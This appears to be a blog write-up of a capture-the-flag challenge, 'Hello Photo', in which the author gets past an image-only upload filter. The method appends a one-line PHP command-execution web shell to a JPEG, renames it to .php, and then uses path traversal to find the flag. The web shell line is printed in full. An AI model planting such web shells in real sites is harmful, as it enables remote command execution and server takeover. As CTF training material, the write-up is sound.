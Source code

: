 ```yaml
---
layout: default
title:  "Shellter Labs - Hello Photo"
date:   2019-05-28
categories: main
---
```


# Shellter Labs- Hello Photo
By just seeing the upload button i thought that is surely going to be an executing command using file upload challenge

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559029410368_Screen+Shot+2019-05-28+at+1.12.15+PM.png)


Earlier i have performed command execution through an upload action in another CTF, but it was direct file upload without any restriction but here i have restriction that i only have to upload jpeg or gif

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559029577670_Screen+Shot+2019-05-28+at+1.15.38+PM.png)


So i searched for reverse shell through images, then i came across a video which showed me how to add a php content to image and change it into php extension  


    echo ‘<?php if($_GET{system($_GET[“cmd”]);}?>’ >> uploadImage.jpg


    mv uploadImage.jpg uploadImage.php

A php file will b created,what we need to do is  just to upload the php file

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030280071_Screen+Shot+2019-05-28+at+1.27.46+PM.png)


It says that my file is uploaded successfully now what we can access the php file which is available in ‘uploads’ directory

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030384719_Screen+Shot+2019-05-28+at+1.29.31+PM.png)


So my command is working properly

Now we have to find the flag, as usual try path traversal

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030449651_Screen+Shot+2019-05-28+at+1.30.40+PM.png)


So here we go found the flag

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030512440_Screen+Shot+2019-05-28+at+1.31.20+PM.png)


**Takeaway:**

Command execution with file upload using image files.

<div id="hyvor-talk-view"></div>
<script type="text/javascript">
    var HYVOR_TALK_WEBSITE = 961; // DO NOT CHANGE THIS
    var HYVOR_TALK_CONFIG = {
        url: '{{ page.url | absolute_url }}',
        id: '{{page.id}}'
    };
</script>
<script async type="text/javascript" src="//talk.hyvor.com/web-api/embed"></script>
